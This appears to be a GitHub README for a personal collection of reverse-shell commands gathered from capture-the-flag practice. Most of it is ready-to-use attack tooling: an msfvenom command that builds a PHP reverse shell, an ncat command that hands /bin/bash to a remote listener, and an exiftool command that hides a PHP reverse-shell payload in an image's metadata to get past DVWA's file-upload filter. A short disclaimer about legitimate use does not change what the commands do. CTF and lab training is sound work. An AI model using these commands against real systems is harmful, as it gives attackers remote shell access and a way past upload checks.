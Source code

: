 # reverse-shell
While working on various CTF challenges, I discovered the need for reverse shell scripts to gain remote access to compromised systems.
With the goal of streamlining this process, I compiled a list of useful scripts that I have personally used in CTF competitions.

Although there are numerous resources available online, I created this repository primarily for my own reference.
However, I am sharing it here to provide others with access to these scripts, which can be used at their discretion.

It is important to note that these scripts should only be used for legitimate purposes, such as remote administration of systems or troubleshooting.
Any misuse of these scripts is strictly prohibited and may result in legal consequences.


# Generate custom shell
msfvenom -p php/reverse_php lport=4444 lhost=192.168.29.4 > ./php_reverse_shell.php


# Find shell into local system
locate reverse | grep php

# ncat shell on Linux Server
Server: ncat 192.168.29.1 4444 -e /bin/bash
Client: nc -lnvp 4444

# DVWA File Upload high
exiftool -Comment="<?php \$command = '/bin/bash -c \"bash -i >& /dev/tcp/192.168.29.4/4444 0>&1\"'; \$output = shell_exec(\$command); echo \$output; ?>" dvwa_error.png
